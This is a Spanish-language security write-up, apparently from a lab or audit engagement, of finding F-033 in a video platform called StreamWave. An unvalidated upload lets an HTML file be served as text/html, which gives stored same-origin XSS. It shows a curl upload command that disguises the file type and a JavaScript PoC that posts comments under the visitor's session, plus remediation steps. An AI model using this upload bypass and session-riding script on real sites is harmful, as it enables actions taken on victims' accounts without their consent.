


# 📤 F-033 — Subida de fichero sin restricciones: XSS almacenado same-origin

   

> [!IMPORTANT]
> `POST /upload` no valida el tipo real del fichero — el `accept="video/*"` del formulario es solo una pista de UI. Un fichero `.html` subido se guarda con su extensión original y se sirve con `Content-Type: text/html`, ejecutando cualquier `<script>` embebido en el origen de StreamWave. Confirmado con un PoC que publica un comentario en nombre de quien visite el enlace — y en la prueba real, la víctima fue la propia sesión de administrador.

## 📖 Contexto

**Endpoint:** `POST /upload` (campo `video`, requiere sesión) → fichero servido tal cual en `GET /media/uploads/{nombre}`.

## 🔬 Explotación paso a paso

```bash
curl -b "connect.sid=..." -X POST http://172.17.0.2:9090/upload \
  -F "video=@poc.html;type=video/mp4" \
  -F "title=x" -F "description=x" -F "category=Training" -F "visibility=public"
```

El fichero queda accesible en `/media/uploads/<timestamp>-poc.html`, servido con:
```
Content-Type: text/html; charset=UTF-8
```
(confirmado también con un `.php` → `Content-Type: application/x-httpd-php`; no se ejecuta como PHP porque el backend es Node, pero demuestra cero validación de tipo).

### PoC de impacto real (session riding)

```html
<html><body>
<script>
fetch('/watch/xyt459/comment', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'body=XSS-UPLOAD-SESSION-RIDING-POC',
  credentials: 'same-origin'
});
</script>
</body></html>
```

Al visitarlo con sesión activa, el script se ejecuta (título cambiado a "PWNED"):



Y publica el comentario automáticamente — en este caso, con la sesión de **administrador** abierta (`StreamWave Staff`, tomada vía [F-030](F-030-jwt-auth-bypass-streamwave.md)):



A diferencia del CSRF clásico ([F-031](F-031-csrf-comentarios-streamwave-descartado.md), no explotable por `SameSite=Lax`), esta vía **sí funciona**, porque la petición ya no es cross-site: se origina desde el propio dominio de StreamWave.

## 💥 Impacto

- XSS almacenado en el propio origen, alcanzable por cualquier cuenta de cliente normal con solo poder subir un vídeo.
- Ejecuta acciones arbitrarias en nombre de quien visite el enlace — bypass efectivo del único control CSRF de facto que protegía a F-031.
- Mitigado parcialmente por `HttpOnly` en la cookie (no permite robo directo vía `document.cookie`), pero no por ningún control de servidor.

## 🛡️ Remediación

- Validar el tipo real del fichero (magic bytes), no la extensión ni el `accept` del cliente.
- Servir contenido subido por usuarios desde un dominio/subdominio sin cookies de sesión asociadas.
- Forzar `Content-Disposition: attachment` / `Content-Type: application/octet-stream` en `/media/uploads/`.
- Renombrar ficheros sin conservar la extensión controlada por el usuario.

## Hallazgos relacionados

Bypassa de facto la mitigación de [F-031](F-031-csrf-comentarios-streamwave-descartado.md). En la prueba, encadenado con [F-030](F-030-jwt-auth-bypass-streamwave.md) porque la sesión activa era la de administrador.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
